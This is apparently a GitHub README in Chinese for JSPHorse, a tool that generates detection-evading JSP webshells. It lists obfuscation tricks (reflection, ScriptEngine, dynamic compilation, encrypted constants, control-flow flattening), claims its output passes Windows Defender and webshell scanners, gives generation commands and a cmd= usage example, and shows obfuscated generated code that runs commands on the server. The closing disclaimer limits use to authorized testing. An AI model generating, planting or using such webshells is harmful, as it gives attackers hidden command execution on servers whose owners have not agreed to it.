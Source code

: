 # JSPHorse

![](https://img.shields.io/badge/build-passing-brightgreen)
![](https://img.shields.io/badge/JavaParser-3.23.1-blue)
![](https://img.shields.io/badge/Java-8-red)

## 简介

一个JSP免杀Webshell生成器，目前仅支持普通回显Webshell，后续可能支持冰蝎等

```txt
　　 へ　　　　　／|
　　/＼7　　　 ∠＿/
　 /　│　　 ／　／
　│　Z ＿,＜　／　　 /`ヽ
　│　　　　　ヽ　　 /　　〉
　 Y　　　　　`　 /　　/
　?●　?　●　　??〈　　/
　()　 へ　　　　|　＼〈
　　>? ?_　 ィ　 │ ／／
　 / へ　　 /　?＜| ＼＼
　 ヽ_?　　(_／　 │／／
　　7　　　　　　　|／
　　＞―r￣￣~∠--|
```

特点：

- Java反射调用
- ScriptEngine调用JS免杀
- 使用分割和注释绕过可能的JS黑名单
- Javac动态编译class免杀（参考三梦师傅代码）
- 双重随机异或运算加密数字常量
- 凯撒密码随机偏移并结合Base64双重加密字符串常量
- 使用控制流平坦化并随机生成分发器
- 所有标识符全部替换为随机字符串
- 支持全局Unicode编码
- 每次执行都会生成完全不同的马（结构相同内容不同）

简单测试了免杀效果：

| 名称 | 测试结果 |
| :----: | :----: |
| 百度WEBDIR+ | ![](https://img.shields.io/badge/pass-green) |
| 河马SHELLPUB | ![](https://img.shields.io/badge/pass-green) |
| Windows Defender | ![](https://img.shields.io/badge/pass-green) |

## Quick Start

在Github右侧Release页面下载

生成标准形式Webshell

`java -jar JSPHorse.jar -p your_password`

全局Unicode编码（JSP支持全局Unicode编码）

`java -jar JSPHorse.jar -p your_password -u`

生成进阶版Webshell（Javac动态编译class）

`java -jar JSPHorse.jar -p your_password --super`

进阶版Webshell基础上全局Unicode编码

`java -jar JSPHorse.jar -p your_password --super -u`

使用ScriptEngine调用JS免杀

`java -jar JSPHorse.jar -p your_password --js`

使用ScriptEngine调用JS免杀基础上全局Unicode编码

`java -jar JSPHorse.jar -p your_password --js -u`

如何使用？

1.jsp?pwd=your_password&cmd=calc.exe

生成JSP大致代码如下：

```java
 try {
        String[] bUKHeZoxwrAKYLkjvcMP = new String[] { "NXwwfDJ8M3w3fDl8MTB8MTF8Nnw4fDF8NA==", "eGVs", "a3Vs", "amF2YS5sYW5nLlJ1bnRpbWU=", "b21iWmN2YnF1bQ==", "bWZtaw==", "PHByZT4=", "PC9wcmU+" };
        String CSLEQilaJEXYTqhIDubS = dec(bUKHeZoxwrAKYLkjvcMP[((627747 ^ 1285107) ^ (217916 ^ 1662188))], ((362867 ^ 1112231) ^ (464295 ^ 1205371)));
        String[] jhetxjKiUeIqIeKBycOb = CSLEQilaJEXYTqhIDubS.split("\\|");
        int jEpUBflQcOJKNizndvCp = ((525415 ^ 1384817) ^ (317417 ^ 1700607));
        String UQIOIelnYKguiPiMnaQT = null;
        String nawTPQyIRdcwDULZVBSF = null;
        Class PGyKjvgngwNbFYoJPbaj = null;
        java.lang.reflect.Method EbTdlrXQiEuMcgyFuGyY = null;
        java.lang.reflect.Method HGjRkjZSeXejrnHgtgIq = null;
        Process gVCGkwmXVnpDbwgkpiyP = null;
        java.io.InputStream DIFNoxuAzWMRCwXZtJWB = null;
        byte[] RDwBQBJtrIRqaxomirvG = null;
        while (true) {
            int OKovVnfpZyAFhVlmyglP = Integer.parseInt(jhetxjKiUeIqIeKBycOb[jEpUBflQcOJKNizndvCp++]);
            switch(OKovVnfpZyAFhVlmyglP) {
                case ((303670 ^ 1554191) ^ (15449 ^ 1255776)):
                    nawTPQyIRdcwDULZVBSF = request.getParameter(dec(bUKHeZoxwrAKYLkjvcMP[((2039625 ^ 1074544) ^ (1424304 ^ 1753483))], ((841358 ^ 1837015) ^ (835561 ^ 1863352))));
                    break;
                case ((849435 ^ 1174311) ^ (325714 ^ 1697127)):
                    HGjRkjZSeXejrnHgtgIq = PGyKjvgngwNbFYoJPbaj.getMethod(dec(bUKHeZoxwrAKYLkjvcMP[((673702 ^ 1287280) ^ (321257 ^ 1901882))], ((534640 ^ 1947587) ^ (300141 ^ 1117142))), String.class);
                    break;
                case ((346862 ^ 1984726) ^ (144870 ^ 1652694)):
                    out.print(dec(bUKHeZoxwrAKYLkjvcMP[((591409 ^ 1247053) ^ (1047216 ^ 1440714))], ((1916117 ^ 1041302) ^ (390214 ^ 1518349))));
                    break;
......................................................
```

## 免责申明

未经授权许可使用`JSPHorse`攻击目标是非法的

本程序应仅用于授权的安全测试与研究目的


